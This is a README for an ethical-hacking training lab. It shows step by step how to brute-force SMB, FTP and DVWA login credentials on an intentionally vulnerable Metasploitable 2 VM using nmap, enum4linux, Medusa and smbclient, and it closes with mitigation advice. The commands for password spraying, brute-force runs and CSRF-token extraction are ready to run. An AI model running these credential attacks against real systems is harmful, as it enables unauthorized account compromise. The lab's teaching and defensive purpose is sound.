









# 🛡️ Brute Force Lab with Medusa — SMB, FTP and DVWA

> Project for the [DIO](https://www.dio.me) **Ethical Hacking** challenge:
> Kali Linux + Medusa + Metasploitable 2 (with FTP and DVWA bonuses).

🌎 **Versão em português:** [README.md](README.md)

---

## ⚠️ Ethical disclaimer

Everything in this repository was produced in an **isolated, controlled lab** using machines I own that are **intentionally vulnerable by design** (Metasploitable 2 and DVWA).

**None of the techniques described here should ever be used against systems without explicit authorization to test.** Attacking third-party systems without authorization is a crime.

The goal is to **learn in order to defend**: understanding the logic of trial-and-error attacks is what enables better password policies, account lockout configuration, and real detection in logs.

---

## 📑 Table of contents

1. [About the project](#-about-the-project)
2. [Learning goals](#-learning-goals)
3. [Lab architecture](#-lab-architecture)
4. [Environment setup](#-environment-setup)
5. [Phase 1 — Enumeration](#-phase-1--enumeration)
6. [Phase 2 — Wordlists](#-phase-2--wordlists)
7. [Phase 3 — SMB attack with Medusa](#-phase-3--smb-attack-with-medusa)
8. [Phase 4 — Validation with smbclient](#-phase-4--validation-with-smbclient)
9. [Bonus A — FTP brute force](#-bonus-a--ftp-brute-force)
10. [Bonus B — Web form (DVWA)](#-bonus-b--web-form-dvwa)
11. [Mitigation and best practices](#-mitigation-and-best-practices)
12. [Classic tools in the AI and MFA era](#-classic-tools-in-the-ai-and-mfa-era)
13. [False positives](#-false-positives)
14. [Evidence environment (Docker)](#-evidence-environment-docker)
15. [Evidence](#-evidence)
16. [Repository structure](#-repository-structure)
17. [How to reproduce / publish](#-how-to-reproduce--publish)
18. [References](#-references)

---

## 🔎 About the project

This project simulates, in a controlled environment, the complete flow of a **brute force attack against SMB credentials** — one of the most classic ways corporate accounts get compromised:

```
enumeration ──► wordlists ──► parallel attack (Medusa) ──► access validation (smbclient) ──► mitigation
```

The victim is **Metasploitable 2**, a deliberately vulnerable Linux VM running a misconfigured Samba server. The attacker is **Kali Linux** with **Medusa**, a modular, parallel, scriptable login brute-forcer that supports dozens of protocols.

As a bonus, the same reasoning is applied to **FTP** and a **web form (DVWA)** — including why modern forms with anti-CSRF tokens make naive form-based brute force impractical.

## 🎯 Learning goals

- Understand brute force attacks across different services (SMB, FTP, Web);
- Use Kali Linux + Medusa for auditing in a controlled environment;
- Build username and password wordlists from enumeration results;
- Validate obtained access (avoiding false positives);
- Recognize common vulnerabilities and propose mitigations;
- Document and share the journey on GitHub as a technical portfolio.

---

## 🧱 Lab architecture

```
┌─────────────────────┐                          ┌─────────────────────────┐
│     Kali Linux      │     host-only network    │    Metasploitable 2     │
│     (attacker)      │     192.168.56.0/24      │   (vulnerable target)   │
│                     │ ◄──────────────────────► │                         │
│   192.168.56.10     │  SMB 139/445 · FTP 21    │     192.168.56.20       │
│  Medusa · nmap ·    │  HTTP 80 (DVWA)          │  Samba · vsftpd ·       │
│  smbclient          │                          │  Apache + DVWA          │
└─────────────────────┘                          └─────────────────────────┘
```

| Role | VM | IP (example) | Target services |
|---|---|---|---|
| Attacker | Kali Linux | `192.168.56.10` | medusa, nmap, enum4linux, smbclient |
| Target | Metasploitable 2 | `192.168.56.20` | Samba (139/445), FTP (21 and 2121), Apache+DVWA (80) |

> The IPs above are examples — yours may differ. Check with `ip a` (Kali) and `ifconfig` (Metasploitable).

## ⚙️ Environment setup

### 1. Virtual machines (VirtualBox)

1. Download and import:
   - [Kali Linux](https://www.kali.org/get-kali/) — ready-made VirtualBox image;
   - [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/) — default login: `msfadmin` / `msfadmin`.
2. Extract and register the Metasploitable disk as a new VM.

### 2. Host-only network (isolated)

1. In VirtualBox: **File → Tools → Network Manager → Host-only Networks** → make sure `vboxnet0` exists (e.g. `192.168.56.1/24`) and keep the **DHCP Server enabled**;
2. On **both VMs**: Settings → Network → Adapter 1 → **Attached to: Host-only Adapter** (`vboxnet0`);
3. Boot both VMs and discover their IPs:

```bash
# on Kali
ip a show eth0

# on Metasploitable (login: msfadmin / msfadmin)
ifconfig eth0
```

4. Test connectivity (from Kali to the target):

```bash
ping -c 3 192.168.56.20
```

> 💡 **Why host-only?** The network stays isolated from your computer and the internet: the attack only reaches the lab. Never leave Metasploitable in Bridged/NAT mode exposed to other networks.

### 3. Tools on Kali

```bash
sudo apt update
sudo apt install -y medusa enum4linux smbclient
```

---

## 🔍 Phase 1 — Enumeration

Before any brute force, you need to know **what is running** and **which accounts exist**. Enumeration turns guesswork into information — and better wordlists.

### Ports and versions

```bash
nmap -sV -p 139,445 192.168.56.20
```

Expected output (Samba on Metasploitable):

```
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### SMB users (null session)

Metasploitable's old Samba accepts **null sessions** (anonymous), which allows listing users — exactly the kind of misconfiguration that enables password spraying:

```bash
# via nmap NSE script
nmap --script smb-enum-users.nse -p 445 192.168.56.20

# full enumeration (users, shares, groups, policies)
enum4linux -a 192.168.56.20 | tee results/02-enum4linux.txt
```

> 💡 On newer Kali builds there is also the maintained fork: `enum4linux-ng -A <IP>`.

**What to look for:** system users (`msfadmin`, `user`, `service`, `postgres`, `sys`, `klog`, `vagrant`...). They feed the next phase's wordlist.

📸 *Evidence:*  and 

Phase script: [`scripts/01-enumeracao.sh`](scripts/01-enumeracao.sh)

---

## 📝 Phase 2 — Wordlists

Two small, didactic lists live in [`wordlists/`](wordlists/):

- **`users.txt`** — users found during enumeration + common account names;
- **`passwords.txt`** — classic weak passwords + **passwords equal to the username** (one of the worst possible practices).

```bash
wc -l wordlists/users.txt wordlists/passwords.txt
head wordlists/passwords.txt
```

📸 *Evidence:* 

> 💡 **Expanding the study:** for a more realistic test, use Kali's classic wordlist:
> ```bash
> sudo gunzip /usr/share/wordlists/rockyou.txt.gz
> # and in Medusa: -P /usr/share/wordlists/rockyou.txt
> ```
> And enrich `users.txt` with enumeration results:
> ```bash
> echo "discovered_user" >> wordlists/users.txt
> ```

Size matters: with 21 users × 32 passwords, Medusa makes up to **672 attempts** — in parallel, that takes seconds. With giant lists, time and lockout risk grow a lot (see [mitigation](#-mitigation-and-best-practices)).

---

## 💥 Phase 3 — SMB attack with Medusa

Medusa's module for SMB is **`smbnt`**. Three testing modes:

### 3.1 Password spraying — one password against many users

The real-world attacker strategy: **few common passwords, many users** (avoids locking out any single account with too many attempts).

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -p '123456' \
       -M smbnt -n 445 \
       -t 4 -v 4 \
       -o results/medusa-spray.txt
```

### 3.2 Full brute force — every user × every password

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M smbnt -n 445 \
       -t 4 -T 8 -v 4 \
       -o results/medusa-smb.txt
```

### 3.3 Null password and password = username (`-e ns`)

A test that breaks poorly configured servers in seconds:

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -e ns \
       -M smbnt -n 445 -v 4
```

`n` = empty password · `s` = password equal to the username.

### Key parameters

| Parameter | Meaning |
|---|---|
| `-h` / `-H` | target host / hosts file |
| `-U` / `-P` | usernames file / passwords file |
| `-p` / `-u` | one fixed password / one fixed user (spray) |
| `-M smbnt` | attack module (SMB/NT) |
| `-n 445` | service port |
| `-e ns` | test null password (n) and password=username (s) |
| `-t` | **parallel tasks per host** (default 16 — 4 to 8 in the lab) |
| `-T` | total parallel tasks (across all hosts) |
| `-v 4` | verbosity (shows each attempt) |
| `-o` | writes the full log to a file |
| `-f` / `-F` | stop after first hit on the host / on any host |

### Expected output

With `msfadmin` and `msfadmin` present in the lists:

```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.20 User: msfadmin Password: msfadmin [VALID]
```

> ⚠️ If the `smbnt` module errors against old Samba, try `-n 139` (classic NetBIOS).

📸 *Evidence:*  · 

Phase script: [`scripts/02-medusa-smb.sh`](scripts/02-medusa-smb.sh)

---

## ✅ Phase 4 — Validation with smbclient

**Never blindly trust `ACCOUNT FOUND`.** A "hit" may be a disabled account, a guest session, or a module false positive. Validating access is part of the test:

```bash
# 1) list the shares accessible with the found credential
smbclient -L //192.168.56.20/ -U msfadmin
# password: msfadmin

# 2) enter a share and list files (real access)
smbclient //192.168.56.20/tmp -U msfadmin
smb: \> ls
smb: \> exit
```

If `smbclient` lists shares and lets you browse, access is **confirmed** — the attack loop closes:

```
enumeration → wordlists → medusa (VALID) → smbclient (real access) → documented evidence
```

📸 *Evidence:*  · 

Phase script: [`scripts/03-validacao-smbclient.sh`](scripts/03-validacao-smbclient.sh)

---

## 🎁 Bonus A — FTP brute force

Metasploitable 2 runs **FTP** on port 21 (ProFTPD; there is also a classic vsftpd on port 2121). Medusa's module is `ftp`:

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M ftp -n 21 \
       -t 4 -v 4 \
       -o results/medusa-ftp.txt
```

Validating access:

```bash
ftp 192.168.56.20
# login: msfadmin / msfadmin
ftp> ls
ftp> bye
```

📸 *Evidence:* 

Script: [`scripts/04-bonus-ftp.sh`](scripts/04-bonus-ftp.sh)

---

## 🎁 Bonus B — Web form (DVWA)

Metasploitable 2 already ships **DVWA (Damn Vulnerable Web Application)** at `http://<TARGET_IP>/dvwa/` (default login: `admin` / `password` — set **DVWA Security: Low**; if every login bounces back to `setup.php`, initialize the database at **setup.php → Create / Reset Database**).

The correct Medusa module for web forms is **`web-form`** (the `http` module is for *HTTP Basic Auth* — using it on a form rains false positives, as documented below):

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M web-form \
       -m FORM:'/login.php' \
       -m DENY-SIGNAL:'Login failed' \
       -m FORM-DATA:'post?username=&password=&Login=Login' \
       -t 4 -v 4
```

- `FORM` → the page receiving the POST;
- `FORM-DATA` → method and fields; the module automatically fills the **1st field with the username** and the **2nd with the password** of each attempt;
- `DENY-SIGNAL` → text present in the response when the login **fails**.

### ⚡ What actually happened in the lab (3 lessons)

**1. Wrong module = false positives.** The first attempt used the `http` module with form options: it ignored the options (`WARNING: Invalid method`) and classified **dozens of wrong combinations as `[SUCCESS]`** — the 200 response containing "Login failed" fooled the module. `ACCOUNT FOUND` without manual validation is worth nothing.

**2. CSRF token blocks naive brute force.** The DVWA login form carries a hidden **`user_token`** (anti-CSRF) field. Without the token, the server answers **HTTP 302** (a redirect) and rejects the attempt — even with the correct password. With the `web-form` module and proper syntax, Medusa went through every combination and ended with **0 `ACCOUNT FOUND`**: each attempt died on the 302.

**3. The valid credential remains valid — the token is what blocks it.** Manual control with `curl`:

```bash
# extract the token from the login page (with a session cookie)
TOKEN=$(curl -s -c c.txt http://192.168.56.20/login.php \
        | grep -oP "name='user_token' value='\K[a-f0-9]+")

# POST without token            -> 302 to login.php (blocked)
# POST with token + wrong pass  -> 302 to login.php
curl -s -b c.txt -d "username=admin&password=password&Login=Login&user_token=$TOKEN" \
     http://192.168.56.20/login.php
# POST with token + admin:password -> 302 to index.php ("Welcome to DVWA") ✔
```

That is not a Medusa bug: it is **the mitigation working**. Automating through it would require extracting the token on every request:

1. **Burp Suite → Intruder** in *Pitchfork* mode, extracting the `user_token` from each response;
2. A custom script (e.g. Python `requests`) that GETs the login page, extracts the token with regex, and POSTs it along.

> 🧠 **Lesson:** modern forms with anti-CSRF tokens (and even more with MFA) break naive form brute force. The defense wins, but the attacker adapts — which is why auditing requires understanding the application, not just firing a tool.

📸 *Evidence:* 

Script: [`scripts/05-bonus-dvwa.sh`](scripts/05-bonus-dvwa.sh)

---

## 🛡️ Mitigation and best practices

| Vector observed in the lab | Defense measure |
|---|---|
| Empty password / password equal to username (`-e ns`) | Password policy with **minimum length** (NIST SP 800-63B: prioritize **length**, not exotic complexity) + screening against breach lists |
| Brute force on SMB/FTP | **Progressive lockout** or delay after N failures; **MFA** for remote access |
| Password spraying | **Anomaly alerting**: many failures across many users from one source (SIEM) |
| Enumeration via null session | Disable anonymous sessions (Samba: `restrict anonymous = 2`; Windows: *"Do not allow anonymous enumeration of SAM accounts"*) |
| Service exposed on the network | **Segmentation** and firewall: SMB/FTP should not be reachable from the wrong segment; VPN for remote access |
| SMB readable/writable by anyone | Review shares and permissions; **least privilege** principle |
| Detection | Monitor authentication failures (Linux: `auth.log`; Windows: **Event ID 4625**); tools like **fail2ban** |
| Legacy protocol | Disable **SMBv1** and unused legacy services (FTP → SFTP/FTPS) |

Golden rule: **defense in depth** — no single measure solves it; the combination raises the attacker's cost dramatically.

---

## 🤖 Classic tools in the AI and MFA era

Why study Medusa/nmap/smbclient when we have AI and MFA?

1. **Credentials remain target #1.** Reports such as Verizon's DBIR keep listing credential use/abuse among the most frequent initial attack vectors. AI accelerates phishing and wordlist generation, but the target **is still identity and password**.
2. **MFA mitigates — it doesn't eliminate.** There are MFA fatigue attacks, SIM swaps, phishing proxies (Evilginx) and stolen tokens. Strong MFA is essential, but truly implementing and auditing it requires understanding authentication under the hood.
3. **Defending requires thinking like an attacker.** Knowing what Medusa actually does (parallelism, modules, `-e ns`, spraying) is what enables lockout configuration, spraying detection, and quality testing.
4. **Fundamentals age slowly.** SMB, FTP and HTTP forms have existed for decades and will keep existing. Tools change; the trial-and-error logic does not.
5. **AI on the defender's side too.** The same AI that generates wordlists helps write detection rules, analyze logs at scale and review password policies. Those who master the fundamentals extract more value from the tool.

---

## 🧯 False positives

An `ACCOUNT FOUND` is not the same as access. Precautions applied in this lab:

- **Always validate manually** with `smbclient`/`ftp` — that is Phase 4 of this project;
- **Null password on Samba with `map to guest`**: Medusa may report success on a "guest session" with no real access to data;
- **Disabled accounts** may authenticate at the protocol level but hold no useful privilege;
- **A mis-tuned `DENY-SIGNAL`** in the `http` module classifies everything as valid (or invalid) — test with one credential **known to be correct** and one **known to be wrong** before the real run;
- **Lockout mid-test** masks results (everything starts failing) — the lab has no lockout; against a client, testing can *cause* massive lockouts: agree on windows and limits beforehand;
- **Wordlist hygiene**: removing duplicates (`sort -u`) avoids repeated attempts and noisy logs;
- **Record everything with `-o`** and keep the log as auditable evidence.

---

## 🖥️ Evidence environment (Docker)

The tutorial above uses **VirtualBox + Kali + Metasploitable 2** — and that remains the recommended setup. The evidence in this repository, however, was produced on a **fully isolated Docker equivalent** (the machine used had no VirtualBox installed, and installing a hypervisor wasn't needed for the test's goal). The DIO challenge is explicitly flexible about adaptations — and the attack logic is identical.

| Role (tutorial) | Equivalent used | Notes |
|---|---|---|
| Host-only net `192.168.56.0/24` | Docker network `medusa-lab-net` (isolated bridge, no ports published to the host) | same isolation |
| Metasploitable 2 (`192.168.56.20`) | container `msf2` — image `tleemcjr/metasploitable2` (`172.20.0.2`) | Ubuntu 8.04 with Samba 3.0.20, ProFTPD (21), vsftpd 2.3.4 (2121), Apache 2 |
| Kali Linux (`192.168.56.10`) | container `kali-attacker` — `kalilinux/kali-rolling` (`172.20.0.3`) | medusa, smbclient, enum4linux, nmap, lftp |
| DVWA (on Metasploitable) | container `dvwa` — `vulnerables/web-dvwa` | same vulnerable application |

> 📸 The PNGs in [`images/`](images/) are **renders of the real output** captured from this lab's terminals (authentic content, visual formatting for readability only). Raw logs live in `results/` (not committed).

## 📸 Evidence

Screenshots should live in [`images/`](images/):

| # | File | What to capture | Phase |
|---|---|---|---|
| 01 | `01-nmap-smb.png` | Ports 139/445 open | Enumeration |
| 02 | `02-enum4linux-users.png` | Extracted users | Enumeration |
| 03 | `03-wordlists.png` | `wc -l` and `head` of the lists | Wordlists |
| 04 | `04-medusa-spray.png` | Spray running | SMB attack |
| 05 | `05-medusa-found.png` | `ACCOUNT FOUND ... [VALID]` | SMB attack |
| 06 | `06-smbclient-list.png` | `smbclient -L` | Validation |
| 07 | `07-smbclient-tmp.png` | `ls` inside the share | Validation |
| 08 | `08-medusa-ftp.png` | FTP hit | FTP bonus |
| 09 | `09-dvwa-login.png` | `user_token` on the form, Medusa blocked (302) and manual control | DVWA bonus |

---

## 📁 Repository structure

```
dio-medusa-bruteforce-lab/
├── README.md            ← PT-BR version
├── README.en.md         ← this file (English)
├── wordlists/
│   ├── users.txt        ← usernames (enumeration + common)
│   └── passwords.txt    ← didactic weak passwords
├── scripts/
│   ├── 01-enumeracao.sh            ← nmap + enum4linux
│   ├── 02-medusa-smb.sh            ← spray, full brute force, -e ns
│   ├── 03-validacao-smbclient.sh   ← access confirmation
│   ├── 04-bonus-ftp.sh             ← FTP brute force
│   └── 05-bonus-dvwa.sh            ← web form + CSRF limitation
├── images/              ← evidence screenshots
└── results/             ← Medusa logs (created by scripts; do not commit)
```

---

## 🔁 How to reproduce / publish

```bash
# 1. clone
git clone https://github.com/<your-user>/dio-medusa-bruteforce-lab.git
cd dio-medusa-bruteforce-lab

# 2. make scripts executable
chmod +x scripts/*.sh

# 3. run the phases in order (on Kali, with the lab up)
./scripts/01-enumeracao.sh 192.168.56.20
./scripts/02-medusa-smb.sh 192.168.56.20
./scripts/03-validacao-smbclient.sh 192.168.56.20
./scripts/04-bonus-ftp.sh 192.168.56.20
./scripts/05-bonus-dvwa.sh 192.168.56.20

# 4. don't version logs/results
echo "results/" >> .gitignore
```

---

## 📚 References

- [Kali Linux — official site](https://www.kali.org/)
- [Metasploitable 2 — Rapid7 guide](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [Medusa — official repository](https://github.com/foospidy/Medusa)
- [DVWA — Damn Vulnerable Web Application](https://github.com/digininja/DVWA)
- [Nmap — official manual](https://nmap.org/book/man.html)
- [smbclient — man page](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
- [NIST SP 800-63B — Authentication guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [OWASP — Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
- [Verizon DBIR — Data Breach Investigations Report](https://www.verizon.com/business/resources/reports/dbir/)

---

⭐ If this material helped you, consider starring the repository!
